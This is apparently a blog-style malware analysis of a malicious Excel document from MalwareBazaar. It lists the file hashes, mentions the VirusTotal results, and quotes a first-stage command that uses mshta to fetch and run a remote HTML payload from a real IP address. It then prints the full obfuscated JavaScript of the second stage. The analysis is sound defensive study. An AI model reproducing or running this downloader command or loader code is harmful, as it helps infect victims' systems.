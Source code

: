 ```yaml
---
layout: page
title:Malware Analysis Practice(Maldoc) #1
permalink: /lemon-mockingbird-north-alanine
---
```


# Analysis of lemon-mockingbird-north-alanine

asparagus-potato-london-march is a sample I downloaded from MalwareBazaar that was uploaded by [@Cryptolaemus1](https://twitter.com/Cryptolaemus1/), a link to the sample is below. The bulk of this analysis is based on techniques I have learned from [@HuskyHacksMK](https://twitter.com/HuskyHacksMK)'s Practical Malware Analysis & Triage course.

Sample source: [https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/](https://bazaar.abuse.ch/sample/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7/)

---

## Static Analysis xlsx file

### File Hashes
I pulled the below hashes using hashcalc.

- MD5: db00ce44029164d0695bafc91fa67413
- SHA1: a7c0195d74d5be9c44638957c704eb76ef749c17
- SHA256: c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7

### VirusTotal
I was able to find a hit when searching the file hash in VT. There is some good information, interestingly only 8/60 vendors flag the file as mailicious. 

VirusTotal - [https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7](https://www.virustotal.com/gui/file/c49da30a5ef994b4388c65f8fd295e33766011b1b5a2221db9753490408f62c7)

### Strings
I used strings to pull all strings from the sample. One string really stood out and it looked very useful.

cmd /c set kiki=mshta http://91.240.118.172/mm/nn/se.html & echo %kiki% | cmdB

From here I went out on a limb and guessed this was a second stage and used any.run to pull a copy the html file safely. The any.run analysis where you can download a copy of he.html is here: [https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/](https://app.any.run/tasks/b756c3c0-d524-4c6c-95dc-d472c632a26d/)

---

## Static Analysis second stage se.html
The first thing I did with the html file was to open it in Notepad++ in the hopes that it wouldn't be a mess of encrypted characters. I was met with an obfuscated script split up into 3 blocks.

Block 1
`	<script>
		l1l=document.documentMode||document.all;
		var f9f76c=true;
		ll1=document.layers;
		lll=window.sidebar;
		f9f76c=(!(l1l&&ll1)&&!(!l1l&&!ll1&&!lll));
		l_ll=location+'';
		l11=navigator.userAgent.toLowerCase();
		function lI1(l1I){return l11.indexOf(l1I)>0?true:false};
		lII=lI1('kht')|lI1('per');
		f9f76c|=lII;
		zLP=location.protocol+'0FD';
		edtsQwJ5y67d8=new Array();
		mX52Su5Km3cOV=new Array();
		mX52Su5Km3cOV[0]='w%36%38%33BC\115\104'   ;
		edtsQwJ5y67d8[0]='<!DOCTYPE html PUBLIC "-//W3C~DTD XHTML 1.0 Transitional~EN"~~\ntp:~w~B.w3.org/TR/x~\n~1/~D~N~Pl1-t~-~/~1~3~5l.dtd"><~W x~~/="~=~?~A~C~E~G~I/19~y~V~l~f~head~gscript>ev~6(une}ape(\'\\166%61%72%20}1}7}37%3D}"}+2}+3B}%}9},8},D}23}4r}9n}4}0Ef}62o}}.4}>68}E}} %}Po}E4e}"}93})}>2C},})}$2}7}3}E6}57}A28i}:},}$}3}r~},}!3}z}2}hB}r2}4|}"}77B}J1y},}0}4}-}57}h}97}.}3fu}E}E}>74}B}F}l}}#q}6},|"}9}g}|151f}]}"1d||}5me|!}J|2|144oc|6}Nent}W}.6F|365}"|"|"}&|?||K}|5}l|O|N||H|=}Tl}l|<|}46|A|57|Y|,|j4|[E|^Ew}A6||U|O}p|}h}0|}.|},|+}|\n3|\'||}}k}5n|W~2}l7{}#}%{}7|x|)|z}w}h}.2}zCs}"}!|{}}$}|!}"0styl}\\|}1}Z}l1spla{A|}Y|,{|m}/},E},}c70r}E|O3{A{#|}(|%}*}"|{}"Fp}2{.{A}x2F{{K{Q{$}T{{I{ |}\'2}w}z|JEew{(A}A} }T|%{7a|/|{G}J}!4{Wg{2|{?}b}/}E}!|\\}|4}{WEn|3}1}"}c{0|?|.}?|9z	}0{\nz\r}0z7zz46{;}Ke|e5g}B{|{|{},}>|6{A|N{m}#A{zz6z|\n{t}8t|Zlzzz;}5}z@{?}K|}4}\'}z|)|~H}]k}s3}u|e|\r}c}-{f{3}az1C{Gn{~}4h{e|,}a|||dz,3|}-|MFcu|8zza|}"Ezc|mtz_ezuz0|;{{|y}<4azc}}Tm{G}]z|z]%5BzS5{}~fz"{!8jzTzV}{9}xzZ1} }w|<z}|z\'zw}R|y{"zk|*|/|K}o}qy|}wzY|z.|+|-{Py={}}j}]z[|,})|yyyy|*zz\\yFByyzx{z0{|N{zt{9|fy}T|C|N{|~#~%yBy#{g}yyy;}yQz7A{{|~yp|}yr|\'))</}}}}}}}	d|Bzt|Ft~D}t}"<tab{- wi~ch=\'10}$\' b~Hderx0\'~g~[x$dxgcol~Hx#x}xx~6ign = \'cxxx#<y|G {*{,ex8\'xAt-family: Vxd~.a, {oi~6xYHelve~2cxXxC~.s-sxif; xIxjizexR12pxxox*x,rxR#Fwwxobackgro}d-x|~Hxx06x2>ThxFswrx< x*x of this pyxFw&w(w\nxcxx\'by <b~gxIxC{+xxwx~ wzaFCCwya~&Guardx\\nyxxI~g/w7w5brww ul~2maxw#ox+w`w-ow/t yw wFwoxxYiw]g}xYJa} }{5xcswuwwayzyw} linkvkeepxebwm|GxxpxOxrw\'aw{7wyz muchv~He.v&w5/wPw6wV<aw:xExGxxxJxx*~-~2~4xRn~4ex{x+ww@wwCx2~	refx~p~@/'   ;
		j7eCosn='fu'   ;
		dhQtYD1xY4Wvl='ecYo6L6'   ;
		i4CE51FAn='LwjfpUopMlQdbeohOiUJ'   ;
		j7eCosn+='nction oisT5kq'+'h7gMSHK(ejd1b4W'+'vdU27U){'   ;
		tsY5j35h1t7p='%69\146%28%7AL\120%2E\151%6Ed\145x%4Ff%28%27%5C%35%35%27%29%3E%30%29%7Be\144%74sQ\167%4A%35y%36%37d%38%5B%30%5D%3D%27x%27%7D%3B%76\141\162%20l%32%3D%77in\144o%77%2Eo\160%65\162a%3F%31%3A%30%3Bf%75%6E%63%74io\156%20c%36%37%66%39\146%28%29%7B%69f%28\146%39f%37%36c%29%7Bdo\143\165%6De%6E\164%2Ew\162i%74\145%28%6C%4F%29%7D%7D%3B%66%75nc\164%69o%6E%20l%33%28%6C%34%29%7Bl%35%3D%2F\172a%2Fg%3Bl%36%3DS\164\162i%6Eg%2Efro\155Ch\141\162C%6F\144%65%28%30%29%3B\154%34%3Dl%34%2Ere\160%6C\141%63\145%28l%35%2Cl%36%29%3B%76\141\162%20%6C%37%3D%6E%65\167%20A\162r%61y%28%29%2Cl%38%3D%5F%31%3D\154%34%2El\145n%67%74%68%2C\154%39%2C%6CI%2C\151%6C%3D%31%36%32%35%36%2C%5F%31%3D%30%2C\111%3D%30%2C%6C\151%3D%27%27%3Bd\157%7B%6C%39%3D%6C%34%2E\143ha%72C\157%64e%41t%28%5F%31%29%3BlI%3D\154%34'   ;
		function h7gMSHKoisT5kq(btU3p36){i4CE51FAn+=btU3p36};
		edtsQwJ5y67d8[0]+='~Bw.pw.vvF.x*mxx~Ixcx_x~.kx#wTw8~4wgxDw<xHvcxKxMxOxQxSxUxWxYx[x]wkx`xbxdxfsxhxjxlxnxpvh~0xtxvxxxzwmx}xvBwD0wwww\nwwv?w?x/0x1x">vM.Pw.WwJv%vUwOvcwQw7yxawQ~du%v,/xxe>");dl=xzs|8|G.{6yxs;oe=xzovNo}~-?1:u	xV=(u4xu7uOu6tMwne||uRx.~6l)&&!u>;wsu3xuS.wsz|{-uSById;wsu@vxvN~0xwr?~[uxuxLlxk;tN=~5vx5w^~H.uxkrAwsu7toLuCxCvza}u/xstt.uvexOf}}t}}yu>=0u}ru:tt{utxV;t58u3a;}rvsgx\';|nw0~_ }m(){vFturx7u~e}uruvuC~G}rw\nt?x9tKt8OFuuuBvNx,xev8nvOw.|Bx+t zt"t$}fxOeyu!=-1t/t1t3v=i7vHt5u`!ztct}tza~6tyxvy|<swgxxlI1lx#t>w(px*nvHu	sqy7tC;s"t:S~[vg.fw\nmChwJCuV(13,xs9s8xu/yr(it-;i<481sD++tNs"7+=s\'tWI~Xu2x\n"+"!--sXsNsYs\\sX~f";slsV/sb*s^s#sYsksYsi;~X11~ns}sbyu-+sss6)s|Is~2rza"xsXs}1(3r\'s\ry~sby|sdrssvsr~.v/{-xwL{4u9:v;}x?vPu,slsOx\n/r$wQrsYw)nu-sesgu2r1+sTsr6rsIs}Isvsb{4~.r0r2r=r(r?r.r0r7susWsYr@x7veu?\'t	~0bxO~1xQw%dxnx#qw}zasdzxcrsgItE}tH~4vstItM{sst{lxZt]{7}bvGv$Begv\',\'{vvr|r~r[qrys?ezdqzaqfvqyur11r=}wru~-y}~Wqw}qxdyqaqwqgqwLvqs?vVqu*{-qsq\'nputqpqsst=r2r\nu/sxtv!(q=1tNxexk~\':q=qrt{oq(|,qUqWs87qYq[qVq\\qZq]u/wU}zak;qKxF2qNsqPqqRrw38,}Fqq7s95qq1qu,9qz,{qy|,qavFaqdqf 3qiqrsqlrvq0,qopqp|,q|pq{q{q~ppza;qbpqet 4pqkqqnqpqrqrp4qxpq|pqvppqdxxLwZtp"p\np$p\r,pp<p;p>p=p@)sSrp8qmqr7l,sfpIssqxr4pJr2,r<pRrfpPstu/~XruNugu[ujEulxsunTyNxM}r7I[2])[0]q}pJr[7pmtE~H(tsCt<piu8|Fgw$tsKtNmq?qj[t]srqu2uZu7p^p`|Gpbypdgpf|8(pio\npww0aLq?oozazbos?(jsCj<oL;jo{o\'xsCxsF;xo1xm(m&Mw^hvOuC(2,xyv{pYrnpYl[jpqxpsr[m>oV4pm}oZsSsrnu/sfqAr1~XtMsestoaxktTwqewt}rqo^qzaxxpBrhtGtj sfo^{sr2op\\u7wqw*w}ssou5u[vvw}xOq?r2o$ohpTo"snw$pPsurw%{-sAu^oIrnuPx}}zaxp_z~x}rMqsTsn\rsg[s\\xOoo;!(ps~4f&rtN~[ynsTu\\n7|Fds1xOdorfvOu|GNuV.vF{5wenFlnHs}pIn,Iyv}tiqFetNo[ntvqGnnXufnu7n#w^qoon\'n*o_rfnoMs\\sgn3t%n5n7sn:qIn=rn?nXnB}znUnHnZnKvFnMnOnQ{6x<mqGnnn[pBn^h(n`{'   ;
		j7eCosn+='eva'   ;
		xH52oqTJ='DeUOHNVQOEJTWexYfVZQOcTKOwOt'   ;
		j7eCosn+='l(unes'   ;
		xB7jh5qz='m3cS2JN62'   ;
		j7eCosn+='cape(ejd1b4WvdU27U))}'   ;
		xB7jh5qz+='uZ0FLiBTY'   ;
		eval(j7eCosn);
		xXeharPxFbO='LDhOjIdZoHHnZVMRvMvauGyZODOYiLvOPjv'   ;
		j7eCosn=''   ;
		tsY5j35h1t7p+='%2E\143%68%61%72\103od%65%41t%28%2B%2B%5F%31%29%3B%6C%37%5B\111%2B%2B%5D%3D\154I%2Bil%2D%28%6C%39%3C%3C%37%29%7D\167h%69%6C\145%28%5F%31%2B%2B%3C\154%38%29%3Bv\141\162%20\154%31%3D%6Eew%20\101\162%72a%79%28%29%2C\154%30%3D\156%65\167%20A%72\162%61y%28%29%2C%49\154%3D%31%32%38%3B%64\157%7Bl%30%5B%49%6C%5D%3DSt%72i%6E\147%2E\146rom%43har%43o\144e%28\111\154%29%7D\167\150il\145%28%2D%2D%49l%29%3B%49%6C%3D%31%32%38%3Bl%31%5B%30%5D%3D%6C\151%3D%6C%30%5Bl%37%5B%30%5D%5D%3B%6C\154%3D%6C%37%5B%30%5D%3B%5Fl%3D%31%3Bva%72%20\154%5F%3D%6C%37%2E%6Ce%6Egth%2D%31%3Bw\150%69le%28%5F\154%3Cl%5F%29%7Bswitc%68%28%6C%37%5B%5Fl%5D%3CI\154%3F%31%3A%30%29%7B%63a%73\145%20%30%20%3A%6C%30%5BI\154%5D%3Dl%30%5B\154l%5D%2BStr\151\156\147%28l%30%5B%6C%6C%5D%29%2E%73%75%62s\164r%28%30%2C%31%29%3B\154%31%5B%5F'   ;
	</script>`
Block 2
`	<script>
		eval(unescape('f\165n%63%74\151\157n%20yI%36Q%51%36%20%20%20%20%28\164%33%50%35FFQ%56%29%7B\150%76%43E\125%35Z\105\115M%4B\102%32%3Dt%33%50%35FF\121%56%7D%3B'));
		qeb6lGDCHLg341R='l'   ;
		xB7jh5qz+='q3rKC46b'   ;
		mX52Su5Km3cOV[0]+='%72%30o%4B%31%31%35%67B'   ;
		edtsQwJ5y67d8[0]+='o[tWtFrjx7o`rouAuw~GmtwZlu0nzaxuE|Fm&sgm)nix|r~1u?nm\'tXtfu\\{-rp{m6m/mrioxn,qAo|wJ t"~[aFri1C|G|Gt-m@owtIrqmDsmH~-mKtG}bmOp{0mRmrlpZe,p,cnn?n4m"tZuyvwJtNv%vtyXdjnS|GwFostoMppqmh}x`qLtOcvHon"pxR~.wstMvTl	nTvcmHwIlF~-guS(mhsDt%p=t-mqm	xnNxtpmtr|q\n(wf,n`tWo;l=qI{mr~/xtl(v$l*ll-s-ivtmoul0lrl4mnDml+lCllrlGw)m\ntnOmsl7l9vFl;l,v%}v3Sixs+pBoZm(xuunam`oxr	o(tNx o?w$nP~.xtLu/dp8Dnllujojott%o)l2tNo=s)}zbs-s/s1s3s5lpoAfx,pyr*25+|Nn\\lxF{kks-ks@kd*os0rza\'tDosPou=k+k-=ol/kzalNkk.k*k0tWtPtRx7k1lpzy}w!xtYvN}dExb|GLw&xt\\ty\'wvGveq\rtNmlkErYkHxkK{*|Fx}x,q pRrm,tpBk o;{+kAw"lu\\kYkItk\\kMxkOkQtu}kU{knkFkZkJkLk^s@\'kaq\rkcqkesl.khkjk@olw"kWu\\txv!k~tkvtqkxkTyu{jw^jhj}~4jqzassn[ljtIq@roqHsCutwwt\ntrt\rttu[ttr^rtxkodo;jmnu{tNj,2k2(jv!s/mj,3jFjm,~-jCrq=4jFk|sgu`qHtyjTjRq>1jFutpxt#t%np{vwJit+l3jLjFmq>ku`}jbtrjeixFxjjoHj,xk9xck;vrq}ry{}	w5s>mmBrmron>oIqsuknon\'|Gunupk`sfq<il"ml%vFmoxbmpYqIn]w^n_t]rliisziy~}vlwIue"VBSi.t~f\r\n i=i>WkD.Rel^xtTo piIi;i>i?iAuUxbiG -4xiJiTiVi;	i=i;COx8~ $c3x}{LOkoNijoBoik}ihinimikipirs)itikivioiqk1ki{ilinixk1hi}h}ghhi}}\'~\nhiwh~>hi~irvK9~(2iU.st8h} /mm/nnyyv%pzbk()\'nPvm}\'hh	qzax:q"i;A~x9~;-v;t"~1ibcsu\'(h6hhJirNehLhiii|h\rirwhP}-ObjhWechWhWwgNh`hRhhirxchW.WhdiuhTk1twh1nRx<}hWh8h.;h;\nCMi`~;ic4xbChWvhmhShghpnghfhk1t).DghhuCgho}nlgg	ishegiroh0m\rnShug ghwh:i;GNh~I`E`XibJI|g0g2X~;+ia~;g,Ah~$g6uMicqxgza,ic3iSJovh9u/hzJHWET5JQ35UgYW5Hi`h= g=h|gd i^ggGgAg=g-i;WSi`s1s@87) &ghhgtrgg"sxggkiCxbvx	.~>iu.gggs(8g}gyfx4gwg="x`~}i;oh SfHRTJKTSf!ARgax9ClhZjh^ongp)i;REgSEfgYf gTgSAWgrg{(f49gwff?fBfDgzs@5k&fHffAfCgxfI(fGfQfOyv+fNfFfPfEs@fTf\\(}myvfUf?xqIfXfd|?fMfh5fjs@frzaf0qIfcfn08fpfdfvfmrri;fff f"f$Kf&HiB} f3f5f7Qf9Wf;f=g=gSgUgWgYg[g]Qg_HxYfAfwiZghx,xkiLi>i+y|w5~\na:wzvtitIs"o~#A~;e+ie-~4~5|8~nipnjwe4n7e,w^~_~nu:rkCx~nxxy~;wx5~\neJ0eLwQe(e*eAe6eC~4eT}za}w6wnyu!e_eT~|> '   ;
		h7gMSHKoisT5kq('p20qO4m3u43');
		tsY5j35h1t7p+='%6C%5D%3Dl%30%5B%49l%5D%3Bif%28l%32%29%7B%6C%69%2B%3D%6C%30%5B\111\154%5D%7D%3B%62%72\145\141\153%3Bdefa%75\154t%3Al%31%5B%5F%6C%5D%3D\154%30%5Bl%37%5B%5F%6C%5D%5D%3B\151f%28%6C%32%29%7Bli%2B%3Dl%30%5B%6C%37%5B%5F%6C%5D%5D%7D%3Bl%30%5BI\154%5D%3D\154%30%5Bl%6C%5D%2B\123%74\162i%6Eg%28l%30%5B\154%37%5B%5Fl%5D%5D%29%2E\163\165%62\163%74r%28%30%2C%31%29%3B\142%72\145ak%7D%3BIl%2B%2B%3Bll%3D\154%37%5B%5F\154%5D%3B%5Fl%2B%2B%7D%3B\151f%28%21l%32%29%7Bre%74urn%28l%31%2E\152o%69%6E%28%27%27%29%29%7De\154s\145%7B\162e\164u%72n%20%6Ci%7D%7D%3B\166ar%20\154%4F%3D%27%27%3B%66o%72%28%69\151%3D%30%3Bi\151%3C\145%64tsQwJ%35\171%36%37d%38%2El\145n\147%74h%3B%69i%2B%2B%29%7B%6C%4F%2B%3D\154%33%28%65d\164%73%51wJ%35\171%36%37\144%38%5B%69%69%5D%29%7D%3Bc%36%37f%39%66%28%29%3B'   ;
	</script>`

Block 3
`		<!--qYjXd1OND0RNWf38O8O2-->
	<script>
		                                                                                                                                                                                                                                                                                                                                                                                                                                                                       
	</script>`